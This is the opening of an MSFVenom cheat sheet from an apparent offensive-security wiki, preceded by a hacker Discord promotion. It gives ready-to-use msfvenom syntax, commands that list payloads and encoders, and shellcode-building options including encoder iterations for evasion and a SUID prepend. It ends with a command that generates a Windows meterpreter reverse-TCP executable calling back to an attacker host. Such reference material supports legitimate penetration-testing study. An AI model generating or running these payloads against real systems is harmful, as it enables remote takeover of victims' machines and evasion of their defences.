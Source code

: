 # MSFVenom - CheatSheet





<figure><img src="../../.gitbook/assets/image (380).png" alt=""><figcaption></figcaption></figure>

Join [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) server to communicate with experienced hackers and bug bounty hunters!

**Hacking Insights**\
Engage with content that delves into the thrill and challenges of hacking

**Real-Time Hack News**\
Keep up-to-date with fast-paced hacking world through real-time news and insights

**Latest Announcements**\
Stay informed with the newest bug bounties launching and crucial platform updates

**Join us on** [**Discord**](https://discord.com/invite/N3FrSbmwdy) and start collaborating with top hackers today!

***

## Basic msfvenom

`msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>`

One can also use the `-a` to specify the architecture or the `--platform`

## Listing

```bash
msfvenom -l payloads #Payloads
msfvenom -l encoders #Encoders
```

## Common params when creating a shellcode

```bash
-b "\x00\x0a\x0d" 
-f c 
-e x86/shikata_ga_nai -i 5 
EXITFUNC=thread
PrependSetuid=True #Use this to create a shellcode that will execute something with SUID
```

## **Windows**

### **Reverse Shell**

{% code overflow="wrap" %}
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
```
{% endcode %}
